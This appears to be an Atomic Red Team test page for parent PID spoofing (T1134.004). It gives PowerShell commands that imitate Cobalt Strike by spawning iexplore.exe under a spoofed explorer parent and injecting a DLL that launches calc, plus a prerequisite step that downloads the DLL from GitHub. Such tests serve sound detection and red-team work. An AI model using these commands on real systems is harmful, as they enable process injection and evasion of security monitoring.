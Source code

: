 This test uses PowerShell to replicates how Cobalt Strike does ppid spoofing and masquerade a spawned process.
Upon execution, "Process C:\Program Files\Internet Explorer\iexplore.exe is spawned with pid ####" will be displayed and
calc.exe will be launched.

Credit to In Ming Loh (https://github.com/countercept/ppid-spoofing/blob/master/PPID-Spoof.ps1)

**Supported Platforms:** Windows

**auto_generated_guid:** 069258f4-2162-46e9-9a25-c9c6c56150d2

#### Inputs:

| Name                 | Description                                       | Type   | Default Value                                               |
| -------------------- | ------------------------------------------------- | ------ | ----------------------------------------------------------- |
| parent_process_name  | Name of the parent process                        | string | explorer                                                    |
| spawnto_process_path | Path of the process to spawn                      | path   | C:&#92;Program Files&#92;Internet Explorer&#92;iexplore.exe |
| dll_process_name     | Name of the created process from the injected dll | string | calculator                                                  |
| dll_path             | Path of the dll to inject                         | path   | PathToAtomicsFolder&#92;T1134.004&#92;bin&#92;calc.dll      |
| spawnto_process_name | Name of the process to spawn                      | string | iexplore                                                    |

#### Attack Commands: Run with `powershell`!

```powershell
. "$PathToAtomicsFolder\T1134.004\src\PPID-Spoof.ps1"
$ppid=Get-Process #{parent_process_name} | select -expand id
PPID-Spoof -ppid $ppid -spawnto "#{spawnto_process_path}" -dllpath "#{dll_path}"
```

#### Cleanup Commands:

```powershell
Stop-Process -Name "#{dll_process_name}" -ErrorAction Ignore
Stop-Process -Name "#{spawnto_process_name}" -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: DLL to inject must exist on disk at specified location (#{dll_path})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1134.004/bin/calc.dll" -OutFile "#{dll_path}"
```
